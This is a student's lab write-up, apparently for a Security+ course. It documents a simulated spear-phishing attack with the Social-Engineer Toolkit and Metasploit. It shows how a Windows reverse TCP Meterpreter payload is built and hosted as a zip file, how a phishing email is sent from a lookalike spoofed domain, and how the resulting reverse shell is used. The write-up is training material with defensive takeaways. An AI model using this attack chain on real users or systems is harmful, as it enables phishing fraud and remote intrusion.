










# 🎭 Lab 02 – Using SET to Perform Social Engineering


---

## 📋 Overview

As a security team member at Structureality Inc., I was tasked with evaluating the organization's susceptibility to social engineering attacks. Using the Social-Engineer Toolkit (SET), I conducted a simulated spear phishing attack against an employee with the goal of tricking them into executing a malicious payload - resulting in a reverse shell being established between the victim's machine and the attacker's Kali system.

This lab covers three phases: exploring SET's capabilities, crafting and delivering the attack, and exploiting the victim through the established reverse shell.

---

## 🎯 Objectives

- Explore the Social-Engineer Toolkit and its attack categories
- Create a Windows reverse TCP Meterpreter payload
- Host the payload on a web server and deliver it via a spoofed phishing email
- Observe the attack from the victim's perspective
- Exploit the reverse shell session using Metasploit's meterpreter

---

## 🛠️ Tools Used

| Tool | Purpose |
|------|---------|
| `SET 8.0.3` | Social engineering framework - payload creation and phishing delivery |
| `Metasploit 6.2.33` | Listener and reverse shell exploitation via meterpreter |
| `Apache2` | Web server used to host the malicious payload |
| `Thunderbird` | Email client used on the victim machine (MS10) |
| `zip` | Packaging the payload for delivery |

---

## 🗂️ Repository Structure

```
lab-02-social-engineering-set/
├── README.md
└── screenshots/
    ├── 01-set-main-menu.png
    ├── 02-payload-generation.png
    ├── 03-msf6-listener-running.png
    ├── 04-zip-apache-confirmed.png
    ├── 05-set-mailer-configured-sent.png
    ├── 06-thunderbird-inbox.png
    ├── 07-email-open-update-link.png
    ├── 08-windows-security-warning.png
    ├── 09-meterpreter-session-opened.png
    ├── 10-sysinfo-getuid.png
```

---

## 🔍 Part 1 – Exploring SET

SET is a Python-based open-source social engineering framework included with Kali Linux. It is menu driven and covers a wide range of attack types.

### SET Social-Engineering Attacks Menu



Here I can see the full Social-Engineering Attacks submenu with 10 available attack vectors:

| Option | Attack Type |
|--------|------------|
| 1 | Spear-Phishing Attack Vectors |
| 2 | Website Attack Vectors |
| 3 | Infectious Media Generator |
| 4 | Create a Payload and Listener |
| 5 | Mass Mailer Attack |
| 6 | Arduino-Based Attack Vector |
| 7 | Wireless Access Point Attack Vector |
| 8 | QRCode Generator Attack Vector |
| 9 | Powershell Attack Vectors |
| 10 | Third Party Modules |

> **Note:** SQL Injection is NOT a supported attack type in SET. The full range covers phishing, payload delivery, hardware attacks, wireless interception, and PowerShell exploitation.

---

## 💣 Part 2 – Crafting the Attack

### Step 1 - Creating the Payload and Starting the Listener

From the Social-Engineering Attacks menu I selected option 4 - Create a Payload and Listener, then configured the following:

- **Payload type:** Windows Reverse_TCP Meterpreter (option 2)
- **LHOST:** `10.1.16.66` (Kali VM IP)
- **LPORT:** `443`



Here I can see SET generating the payload and exporting it to `/root/.set/payload.exe`, then automatically launching MSFconsole to initiate the listener.



Here I can see the listener is fully configured and active - `Started reverse TCP handler on 10.1.16.66:443`. MSF is now waiting for an incoming connection.

### Step 2 - Packaging and Hosting the Payload

In a second terminal I navigated to the SET directory, zipped the payload, and started Apache to serve it:

```bash
cd /root/.set
zip /var/www/html/acctupd.zip payload.exe
service apache2 start
ls -la /var/www/html/acctupd.zip
```



Here I can see `acctupd.zip` confirmed at 44105 bytes in the Apache web root and the service running. The zip extension is used to avoid client-side executable blocking that would prevent the payload from reaching the target.

### Step 3 - Crafting and Sending the Phishing Email

I launched a second instance of SET and navigated to Mass Mailer Attack to craft the phishing email with the following configuration:

| Field | Value |
|-------|-------|
| Target | `jaime@structureality.com` |
| From Address | `support@structurealty.com` (spoofed - note missing "i") |
| From Name | Support Department |
| Priority | High |
| Subject | Important Account Update |
| Format | HTML |
| Body | Download link pointing to `http://10.1.16.66/acctupd.zip` |



Here I can see the full email configuration and the confirmation `SET has finished sending the emails`. The spoofed From address uses `structurealty.com` instead of `structureality.com` - a one character difference designed to fool a target who isn't looking closely.

---

## 🎯 Part 3 – The Victim's Perspective

### Thunderbird Inbox



Here I can see Jaime's inbox showing two copies of the "Important Account Update" email from Support Department. The duplicate is a known SET bug - the email gets sent twice. Both appear legitimate at a glance.

### Email Content



Here I can see the email rendered in Thunderbird. The From field shows `support@structurealty.com` - the spoofed address is visible but easy to miss. The Update hyperlink in the body points to the payload hosted on the Kali web server. The message creates urgency by warning that certificates will expire.

### Security Warning



Here I can see Windows displaying a security warning before the payload executes. The dialog flags the file as having an unknown publisher and no valid digital signature. A properly trained user would stop here and report this to their security team. In this simulation, the victim is assumed to have been socially engineered into clicking Run anyway - which is exactly the scenario SET is designed to test.

---

## 💻 Part 4 – Exploiting the Reverse Shell

### Meterpreter Session Established



Here I can see the moment the reverse shell connected back to the Kali listener:

```
[*] Sending stage (175686 bytes) to 10.1.16.2
[*] Meterpreter session 1 opened (10.1.16.66:443 -> 10.1.16.2:1655)
```

The victim executed the payload and a full meterpreter session is now open. The attacker has remote control of the victim's machine.

### System and User Information

```bash
sessions -i 1
sysinfo
getuid
```



Here I can see the compromised system's details returned through meterpreter:

| Field | Value |
|-------|-------|
| Computer | MS10 |
| OS | Windows 2016+ (10.0 Build 14393) |
| Architecture | x64 |
| Domain | structureality |
| Logged On Users | 6 |
| Server Username | structureality\jaime |

The `getuid` result confirms the session is running under Jaime's user account - meaning the attacker is limited to Jaime's privilege level. However with meterpreter's capabilities including keylogging, file access, and pivoting, even a standard user account represents a serious compromise.

---

## 💡 Key Takeaways

- **Social engineering bypasses technical controls.** No firewall or IDS stopped this attack - the payload was delivered via a convincing email and the user was the last line of defense.
- **Spoofed addresses are easy to miss.** A one character difference in a domain name is nearly invisible to a user not specifically trained to check sender addresses.
- **Urgency is a manipulation tactic.** The "your certs will expire" message is designed to pressure the victim into acting fast without thinking critically.
- **Security warnings exist for a reason.** Windows displayed a clear warning before the payload ran. User security awareness training is what turns that warning into an actual stop.
- **A reverse shell is a full foothold.** Once meterpreter is open an attacker can keylog, pivot, dump credentials, and escalate - all from a single phishing email.

---

## ❓ Comprehensive Questions

**1. What is a threat vector?**
A pathway that could support an intrusion attempt.

**2. What attack type is NOT supported by SET?**
SQL Injection.

**3. What nmap parameter performs a scan which displays service identification?**
`-sV`

**4. Where can threats originate?**
All of the above - externally, internally, and through third-party software.

**5. What are two primary response options to a social engineering threat?**
Implement security awareness training, and configure email filtering controls.

---

## 📚 References

- [Social-Engineer Toolkit (SET) - TrustedSec](https://github.com/trustedsec/social-engineer-toolkit)
- [Metasploit Documentation](https://docs.metasploit.com/)
- CompTIA Security+ Objectives 2.2 & 5.6